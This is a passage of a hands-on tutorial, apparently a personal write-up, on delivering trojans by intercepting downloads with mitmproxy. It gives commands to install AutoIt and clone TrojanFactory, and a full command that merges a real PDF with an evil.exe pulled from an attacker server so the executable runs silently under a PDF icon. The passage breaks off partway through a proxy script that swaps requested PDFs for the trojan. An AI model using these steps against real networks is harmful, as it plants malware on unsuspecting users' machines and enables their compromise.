 7. So now when client clicks on a PDF file to be downloaded, that download request will be redirected to our fake file. This fake file is what will be downloaded to the clients machine.

**Generating Trojans Using TrojanFactory**
1. We will use the [TrojanFactory](https://github.com/z00z/TrojanFactory) application from GitHub to create a trojan and since it uses AutoIt, we will first install [AutoIt from the main web page](https://www.autoitscript.com/site/autoit/downloads/). The AutoIt download comes as a Windows .exe file, hence we will use the Wine tool to run the .exe on Linux terminal as shown below.
    ```shell
    wine autoit-v3-setup.exe
    ```
Note : if you don't have wine installed on Linux, run the following command in terminal "dpkg --add-architecture i386 && apt-get update && apt-get install wine32"

2. Next, we will Clone TrojanFactory to our "opt" directory in the linux machine as shown below.
    ```shell
    git clone https://github.com/z00z/TrojanFactory.git
    ```
Note: to run TrojanFactory, go to the cloned folder and type in "python trojan_factory.py"

3. In order create a trojan... TrojanFactory will do the following for us:
* Combine our evil file with a normal file(pdf, video, image, etc).
* Configure evil file to run silently in the background.
* Change the file icon.
The only thing we need to do is change the file extension... which I will cover later in this documentation

4. We will start off by running TrojanFactory. Along with the command, we will specify the location of the file that we will display for the target client. (For this documentation I will use a adobe acrobat reader readme PDF file as the normal file since it is conveniently stored on the internet and has a *direct URL* to the file. Also, I will host my evil file on my web server so TrojanFactory can combine it with the normal file.)
    ```shell
    python trojan_factory.py -f https://pubs.usgs.gov/dds/dds-057/ReadMe.pdf -e http://10.15.232.5/evil.exe -o /var/www/html/ReadResult.exe -i /root/Downloads/pdf.ico -z
    ```
Note: here -f to specify the location of normal file, -e is to specify the location of evil file, -o is the location to store the result, -i is the location of the Trojan icon that is to be used, here I am using a PDF icon since the target download extension is a PDF. and -z to zip the file. Type in "python trojan_factory.py --help" for more info.

**Executing Bash Commands and Calling TrojanFactory From Our Script.**
1. We will write the following code in the proxyscript.py file using any text editor. In this script, we will call TrojanFactory (execute a bash command in the py script) to generate a trojan and then we will serve that trojan with the expected response to the client. In the below script we are intercepting PDF file. Feel free to intercept any file(.jpg, .exe, etc.) you want by changing the endswith extension. If you do change the extension, make sure to change the -i file to specify an icon that corresponds to the front_file extension.
    ```python
    import mitmproxy
    import subprocess

    def request(flow):
        #code to handle request flows
        if flow.request.host != "10.15.232.5" and flow.request.pretty_url.endswith(".pdf"):
            print("[+] Got an intriguing flow")
